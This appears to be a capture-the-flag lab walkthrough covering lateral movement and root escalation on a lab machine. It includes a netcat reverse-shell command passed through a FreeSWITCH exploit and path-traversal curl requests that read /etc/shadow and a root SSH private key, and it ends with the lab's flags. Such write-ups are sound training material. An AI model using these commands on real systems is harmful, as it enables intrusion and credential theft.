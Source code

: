 # Lateral Movement to user
- Ran `su cassie` with found password `SecondBiteTheApple330` to switch to user `cassie` 
![[Pasted image 20241017214945.png]]
---
# Privilege Escalation
## Local Enumeration
- Navigated to `/home/cassie`, identified `id_rsa` file and ran `cat id_rsa` to display SSH private key
![[Pasted image 20241017215717.png]]
- Ran `ssh2john` to crack `cassie` RSA key - no password found
![[Pasted image 20241017221006.png]]
- Ran `sudo -l` to identify `sudo` privileges
![[Pasted image 20241017220245.png]]
## Privilege Escalation vector
- Ran `sudo /usr/local/bin/cassandra-web -B 0.0.0.0:4444 -u cassie -p SecondBiteTheApple330` to launch Cassandra server on localhost as `root`
![[Pasted image 20241017222827.png]]
- Re-ran exploit `python3 freeswitch-exploit.py 192.168.114.240 'nc -c /bin/bash 192.168.45.154 80'` to establish 2nd reverse shell, then ran `curl --path-as-is localhost:4444/../../../../../../../../../etc/shadow` to display password hashes
![[Pasted image 20241017222955.png]]
- Saved password hashes for `root` and `anthony` to `cluehash`
![[Pasted image 20241017223413.png]]
- Ran `curl --path-as-is localhost:4444/../../../../../../../../../home/anthony/.bash_history` to view `anthony` bash history
![[Pasted image 20241017224212.png]]
- Identified `root` RSA key has been copied to `/home/anthony/.ssh/id_rsa` - ran `curl --path-as-is localhost:4444/../../../../../../../../../home/anthony/.ssh/id_rsa` to display `root` RSA private key
![[Pasted image 20241017224304.png]]
- Copied `root` RSA private key to local file `root_rsa` and logged into `root` user with `ssh -i root_rsa root@192.168.114.240`
![[Pasted image 20241017224610.png]]
- Ran `cat /root/proof.txt` and printed `The proof is in another file`
- Listed directory contents and identified `proof_youtriedharder.txt` - ran `cat proof_youtriedharder.txt` to print `85cf69abf0ad2cced9e676fdeeef3702`
---
# Trophy & Loot
`local.txt` = `6e79f3911c9a13321d9d94e2e621b593`
`proof.txt` = `85cf69abf0ad2cced9e676fdeeef3702`